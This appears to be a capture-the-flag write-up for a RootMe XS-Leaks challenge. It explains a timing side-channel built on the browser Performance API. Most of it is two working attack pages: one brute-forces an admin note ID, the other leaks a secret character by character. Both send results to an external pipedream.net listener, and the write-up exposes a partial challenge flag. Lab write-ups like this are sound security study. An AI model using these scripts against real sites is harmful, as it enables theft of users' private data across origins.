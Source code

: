 ```yaml
---
title: "Rootme CTF - XsLeaks"
tags:
  - client side
  - web
  - CTF 
---
```


# XSLeak - Abusing Performance API - RootMe

## **Overview**

In this task, we will exploit a timing side-channel vulnerability in a web application's note search functionality. The application shows different response times based on the validity of the input, allowing us to infer sensitive information through timing attacks. First, we need to identify the admin user's ID.

## **Performance API Overview**

The Performance API provides detailed timing data about the performance of web applications. Using `performance.now()`, the script can capture timestamps with sub-millisecond accuracy. This precision is crucial in timing attacks, where the difference in processing time between valid and invalid inputs is often minimal.

Now we can see that when a valid character is appended to the URL, the server takes more time to respond compared to when an invalid character is appended. This likely results from additional server-side processing for valid inputs, such as database queries or data rendering, which are not triggered by invalid inputs. By measuring these timing differences, the script can deduce the correct characters one by one.

![img](../ctf-web/images/xs.png)

## **Finding the Admin User ID**

To find the admin user's ID, we can brute-force possible user IDs by probing the server and monitoring the responses. The script below performs this task by injecting scripts into the page and checking which IDs trigger a response.

### **Admin User ID Brute-force Script**

```html
<!DOCTYPE html>
<html>
<head>
    <meta charset="utf-8">
    <meta name="viewport" content="width=device-width, initial-scale=1">
    <title>Find Admin ID</title>
</head>
<body>
<script type="text/javascript">
const listener = 'https://en0z1k1c8dwr9e.x.pipedream.net/';

function gotIt(id) {
    fetch(listener + '/?id=' + id, {"method": "GET", "mode": "no-cors"});
}

function probeError(url) {
    let script = document.createElement('script');
    script.src = url;
    script.onload = () => gotIt(url.split('/').pop());
    document.head.appendChild(script);
}

for(let i = 350; i <= 400; i++) {
    probeError(`https://web-client-ch56.challenge01.root-me.org:58056/notes/${i}`);
}
</script>
</body>
</html>

```

Once the admin ID is discovered, we can perform a timing attack to extract sensitive information by measuring the response time of different requests.

```html
<!DOCTYPE html>
<html>
<head>
    <title>Leak</title>
</head>
<body>
<script>
function sleep(ms) {
    return new Promise(resolve => setTimeout(resolve, ms));
}

async function sendCharacterToEndpoint(char, titleSoFar) {
    const img = new Image();
    img.src = `https://en0z1k1c8dwr9e.x.pipedream.net/?flag=${titleSoFar}`;
    document.body.appendChild(img);
}

async function measureLoadTime(url) {
    return new Promise((resolve) => {
        const start = performance.now();
        const image = new Image();
        image.src = url;
        image.onerror = function() {
            const end = performance.now();
            const time = end - start;
            resolve(time);
        };
    });
}

async function leak() {
    const possibleChars = "!\"#$%&'()*+,-./0123456789:;<=>?@ABCDEFGHIJKLMNOPQRSTUVWXYZ[\\]^_`abcdefghijklmnopqrstuvwxyz{|}~";
    const targetOrigin = 'https://web-client-ch56.challenge01.root-me.org:58056/notes/392/';
    let discoveredTitle = 'zC4R3_4B0UT_+S4MES1T3_C00K13';

    while (true) {
        let foundChar = false;
        for (let i = 0; i < possibleChars.length; i++) {
            const url = targetOrigin + discoveredTitle + encodeURIComponent(possibleChars[i]);
            const time = await measureLoadTime(url);
            console.log(`This Character: ${possibleChars[i]} took ${time} ms`);
            if (time > 2000) {
                discoveredTitle += possibleChars[i];
                console.log(discoveredTitle);
                foundChar = true;
                await sendCharacterToEndpoint(possibleChars[i], discoveredTitle);
                break;
            }
            await sleep(100);
        }
        if (!foundChar) break;
        await sleep(2000);
    }
    console.log(`Final discovered title: ${discoveredTitle}`);
}

leak();
</script>
</body>
</html>

```

## **Resources**

- [Performance API Documentation](https://developer.mozilla.org/en-US/docs/Web/API/Performance)
